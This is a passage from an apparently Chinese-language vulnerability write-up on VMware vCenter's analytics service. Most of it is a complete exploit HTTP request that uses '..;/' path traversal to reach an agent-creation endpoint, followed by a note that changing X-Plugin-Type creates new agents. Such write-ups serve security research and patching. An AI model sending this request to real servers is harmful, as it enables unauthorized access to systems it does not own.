 [![](assets/1704161823-b6356aec9b5c4fed3b48c3cb76fb817c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221011122415-90e857c6-491c-1.png)  
最终请求包

```plain
POST /analytics/ceip/sdk/..;/..;/..;/analytics/ph/api/dataapp/agent?_c=vSphere.vapi.6_7&_i=9D36C850-1612-4EC4-B8DD-50BA239A25BB HTTP/1.1
Host: 192.168.111.11
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: Mozilla/5.0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
X-Deployment-Secret: secret
X-Plugin-Type: test
Content-Length: 354
{"manifestSpec": {"resourceId": "b1", "dataType": "b2", "objectId": "b3", "versionDataType": "b4", "versionObjectId": "b5"}, "objectType": "a1", "collectionTriggerDataNeeded": true, "deploymentDataNeeded": true, "resultNeeded": true, "signalCollectionCompleted": true, "localManifestPath": "a2", "localPayloadPath": "a3", "localObfuscationMapPath": "a4"}
```

通过修改X-Plugin-Type即可创建新的agentId  